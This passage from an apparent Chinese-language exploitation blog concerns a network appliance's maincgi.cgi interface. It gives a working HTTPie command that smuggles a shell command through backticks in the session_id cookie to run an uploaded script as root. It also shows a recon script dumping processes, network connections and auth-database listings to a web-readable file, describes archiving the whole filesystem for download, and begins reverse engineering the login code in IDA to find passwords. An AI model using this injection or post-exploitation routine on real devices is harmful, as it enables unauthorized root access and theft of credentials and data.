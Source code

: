 ![upload_run.png](http://a2.qpic.cn/psb?/V13kduqE1mEn46/0KAYbZ7jufdP8tv0AQKP518QfgNxDFDNr7hvESG9T8M!/b/dK8AAAAAAAAA&bo=mAYqAgAAAAADB5Q!&rf=viewer_4)

当然，代码并没有直接上传一个可执行文件，而是巧妙（恕见识少，我知道*nix下经常这样干）的将需要的多个文件用tar打包后，附到sh脚本的最后。在sh脚本中用dd命令将tar包copy出来再解压运行。下面是工具中stage.sh的部分代码：

![stager.jpg](http://ofcdyjn8r.bkt.clouddn.com/blog-protf/stager.png)

文件tar打包的Python代码片段：


![build_exploit_payload.png](http://upload-images.jianshu.io/upload_images/7629-372bc73d72b9e2e4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

就我的需求而言，只是上传脚本执行，就不用做得那么复杂了。简单的post我的sh脚本，同时执行 `sh /tmp/cgi*`。前提是我的sh脚本中都做了清理工作 `rm /tmp/cgi*`。

```shell
http --verify=no -b -f POST https://x.x.x.x/cgi/maincgi.cgi 'Cookie: session_id=x`sh /t*/cg*`' a@test.sh; http --verify=no https://x.x.x.x/1
```

HTTPie可以用 `uploadfilename@localfilename` 的方式很方便的实现文件上传。之所以两条指令在一行是为了方便查看前一个脚本的输出。

```sh
#!/bin/sh
# 清除/tmp/cgi*，防止干扰下次运行
rm -f /t*/cgi*

echo =============================== >/www/htdocs/1
date >>/www/htdocs/1

echo "***************" >>/www/htdocs/1
cd /tmp
ps >>/www/htdocs/1
netstat -nltp >>/www/htdocs/1
ls -la /xxx/etc /data/auth/db /tmp >>/www/htdocs/1
```

上面的示例脚本就可以一次进行多种操作，获取进程信息、网络连接情况、目录文件等多种信息，大幅减少交互次数提高效率。


### 逆向分析，寻找密码

做了很多准备工作，找到了比较便捷的脚本执行方式。而且根据ps结果来看，指令是以root权限运行的。接下来要开始干正事了，`tar cf /home/htdocs/1 /` 打包文件系统，down下来准备逆向分析。因为web登录入口指向maincgi.cgi，就从它开始。

逆向分析的过程相当繁杂、漫长、枯燥乏味，具有相当的挑战性，所以需要坚定的毅力和不时涌现的灵感。无数次调整思路和方向，无数次寻找新的突破口。

我现在也记不清当初分析时的前因后果，就把一些分析的结果整理下，做一个简单的分享。



#### 入口 maincgi.cgi

`maincgi.cgi` 位于 `/www/cgi/` 目录下。用IDA进行逆向分析。

根据登录form提交的 `username` 和 `passwd` 在string窗口搜索，x跟踪调用情况分析，最终来到 000403D4 函数内。


![maincgi_403D4.png](http://a2.qpic.cn/psb?/V13kduqE1mEn46/2f0SXgC8cE9Oro5WY6x18S7krJ8PpZ.q8Mk21EklaqQ!/b/dLIAAAAAAAAA&bo=jgKAAgAAAAADByw!&rf=viewer_4)
